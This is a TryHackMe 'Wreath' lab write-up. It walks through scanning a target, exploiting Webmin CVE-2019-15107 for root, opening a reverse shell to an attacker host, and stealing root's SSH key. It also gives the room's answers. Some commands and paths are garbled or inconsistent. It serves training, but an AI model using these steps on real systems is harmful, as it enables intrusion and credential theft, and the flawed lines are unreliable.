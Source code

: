 # [THM] - Wreath

[Room link](https://tryhackme.com/room/wreath)

--- 

 ## Task 1 - 4
  
**Just read, understand contents and complete**

--- 

## Task 5

Enumeration 

```bash
$ sudo nmap -sS -p0-14999 -oN nmap-0-to-14999.txt <target_ip>
[...]
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt

$ sudo nmap -sS -F -O -oN nmap-os.txt <target_ip>
[...]
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).

# Check OS (aggressive scan)
$ sudo nmap -sS -A nmap-os.txt <target_ip>
[...]
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)

# Check server web redirection
$ curl http://<target_ip>/                                                                          
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://thomaswreath.thm">here</a>.</p>
</body></html>

# Update /etc/hosts
$ echo "<target_ip> thomaswreath.thm" | sudo tee -a /etc/hosts 

# Reload the webpage. Check Thomas' mobile phone number
$ curl --insecure https://thomaswreath.thm/ | grep '[0-9]\{3\}[ -]\?[0-9]\{3\}[ -]\?[0-9]\{4\}'

# Find highest open port version
$ sudo nmap -sV -p10000 <target_ip>

# Check CVE exploit about MiniServ
$ searchsploit -w webmin 1.890
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
 Exploit Title                                                                                                                      |  URL
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                                       | https://www.exploit-db.com/exploits/47330
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
$ curl https://www.exploit-db.com/exploits/47330 | grep -i CVE
```

1. How many of the first 15000 ports are open on the target?

**4**

2. What OS does Nmap think is running?

**CentOS**

3. Open the IP in your browser -- what site does the server try to redirect you to?

**https://thomaswreath.thm/**

4. You will have noticed that the site failed to resolve. Looks like Thomas forgot to set up the DNS!

**Update /etc/hosts**

5. Read through the text on the page. What is Thomas' mobile phone number?

**447821548812**

6. Look back at your service scan results: what server version does Nmap detect as running here?

**MiniServ 1.890 (Webmin httpd)**

7. What is the CVE number for this exploit?

**CVE-2019-15107**

---

## Task 6

```bash
# After do instructions run exploit
$ $ ./CVE-2019-15107.py <target_ip>
[...]
$ whoami
root

# Shell stabilization (on exploit pseudoshell)
$ shell 
[*] Starting the reverse shell process
[*] For UNIX targets only!
[*] Use 'exit' to return to the pseudoshell at any time
Please enter the IP address for the shell: <attacker_ip>
Please enter the port number for the shell: <port_listener>

[*] Start a netcat listener in a new window (nc -lvnp 12345) then press enter.

# On the nc listener
sh-4.4# 

# Check root's hash
sh-4.4# cat/etc/passwd

# Copy content of /root/.ssh/id_rsa
sh-4.4# cat /etc/.ssh/id_rsa #Copy the content
[...]
# On the attacker machine
$ echo "<id_rsa_content>" > id_rsa_wreath
$ chmod 600 id_rsa_wreath

# Connect us to the target machine
$ ssh -i id_rsa_wreath root@<target_ip>
$ whoami
root
```

1. Run the exploit and obtain a pseudoshell on the target!

**Just execut the python exploit**

2. Which user was the server running as?

**root**

3. What is the root user's password hash?

**Check content of /etc/passwd**

4. What is the full path to this file?

**/root/.ssh/id_rsa**

---

## Task 7

1. Which type of pivoting creates a channel through which information can be sent hidden inside another protocol?

**Tunnelling**

2. Which Metasploit Framework Meterpreter command can be used to create a port forward?

**portfwd**

---

## Task 8


